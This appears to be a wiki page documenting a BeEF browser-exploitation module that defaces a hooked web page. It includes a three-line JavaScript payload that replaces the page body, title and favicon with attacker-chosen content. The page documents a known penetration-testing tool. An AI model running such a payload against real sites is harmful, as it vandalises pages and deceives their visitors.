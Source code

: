 ## Summary
* **Objective**: Overwrite the page, title and shortcut icon on the hooked page.
* **Date**: ???
* **Authors**: antisnatchor
* **Browsers**: All (User will be notified)
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/deface_web_page]]

## Internal Working

This command modify the HTML, the title and the favicon of the page with the parameters given :

```javascript
	document.body.innerHTML = "<%= @deface_content %>";
	document.title = "<%= @deface_title %>";
	beef.browser.changeFavicon("<%= @deface_favicon %>");
```

##Feedback